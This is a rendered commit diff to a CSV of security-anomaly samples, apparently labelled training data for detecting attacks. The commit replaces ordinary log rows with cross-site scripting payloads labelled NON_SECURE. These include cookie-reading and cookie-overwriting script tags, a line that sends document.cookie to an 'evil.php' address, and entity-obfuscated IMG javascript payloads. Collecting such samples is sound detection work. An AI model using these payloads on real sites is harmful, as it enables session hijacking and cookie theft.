

Before and after one commit to divanshu1993/security-anomalies-samples, a CSV file: security anomalies threats samples.csv, drawn as a sheet; removed rows and columns are numbered as before the commit, all else as after; ↵ is a line break in a cell; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update security anomalies threats samples.csv

```diff
--- a/security anomalies threats samples.csv
+++ b/security anomalies threats samples.csv
-column A (timestamp), rows 4-18: all 26/05/23 16:55
-column B (requestid), rows 4-18: 53558 | 53558 | 53558 | 53558 | 53558 | 53558 | 53558 | 53557 | 53557 | 53557 | 53557 | 53557 | 53558 | 53558 | 53558
-column C (log_level), rows 4-18: all INFO
-row 2: 26/05/23 16:55 | 53556 | INFO | Bean 'postgresConfig' of type [ru.yandex.qatools.embed.postgresql.config.PostgresConfig] is not eligible for getting processed by all BeanPostProcessors (for example: not eligible for auto-proxying), ↵ Extract /Users/ajss/.embedpostgresql/postgresql-10.6-1-osx-binaries.zip START | SECURE
-row 3: 26/05/23 16:55 | 53557 | INFO | %20% | NON_SECURE
+row 14: <script>javascript:alert(‘Executed!’);</script> | NON_SECURE
+row 15: <script>javascript: alert(document.cookie);</script> | NON_SECURE
+row 16: <script>javascript:void(document.cookie=“session_id=<<other session id>>“);</script> | NON_SECURE
+row 17: <script>javascript:void(document.cookie=”username=otherUser”);</script> | NON_SECURE
+row 18: <script>var adr = '../evil.php?cakemonster=' + escape(document.cookie);</script> | NON_SECURE
+row 19: <script></script> | NON_SECURE
+row 20: <script></script> | NON_SECURE
+row 21: <IMG SRC=j&#X41vascript:alert('test2')> | NON_SECURE
+row 22: <IMG SRC=j&#X41vascript:alert('hacked')> | NON_SECURE
+row 23: <IMG SRC=j&#X41vascript:alert('check')> | NON_SECURE
+row 24: <IMG SRC=j&#X41vascript:alert('test')> | NON_SECURE
```
